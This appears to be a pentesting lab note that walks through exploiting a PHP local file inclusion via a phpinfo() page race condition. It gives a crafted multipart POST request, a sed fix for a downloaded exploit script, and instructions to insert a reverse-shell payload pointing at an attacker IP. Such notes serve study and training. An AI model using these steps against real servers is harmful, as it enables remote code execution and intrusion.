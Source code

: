 https://www.youtube.com/watch?v=rs4zEwONzzk&t=600s

> To exploit this vulnerability you need: **A LFI vulnerability, a page where phpinfo() is displayed, "file_uploads = on" and the server has to be able to write in the "/tmp" directory.**

![[file_uploads.png]]

### Steps:
- Intercept the page with Burp Proxy.
- Send it to Repeater.
- Change the page request to  POST.
- Modify the rest of the page as follow:
```
POST /info.php HTTP/1.1
Host: 10.10.183.153
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
Content-Type: multipart/form-data; boundary=--PleaseSubscribe
Content-Length: 166

----PleaseSubscribe
Content-Disposition: form-data; name="anything"; filename="LeaveAComment"
Content-Type: text/

Please share my videos
----PleaseSubscribe
```
- Send the page and you'll see the following:
	![[php_variables.png]]
-  Download the exploit file from https://www.insomniasec.com/downloads/publications/phpinfolfi.py.
- You need to fix the exploit (change **=>** for **=>**). To do so you can do:
```
sed -i 's/\[tmp_name\] \=>/\[tmp_name\] =\&gt/g' phpinfolfi.py
```
- Change the **payload** at the beginning of the exploit (for a php-rev-shell for example).
	$ip = '127.0.0.1';  // CHANGE THIS TO YOUR ATTACKER IP
	$port = 1234;       // CHANGE THIS
- Change the **REQ1** variable (this should point to the phpinfo page and should have the padding included.
```
	REQ1="""POST /info.php?a="""+padding+""" HTTP/1.1\r
```
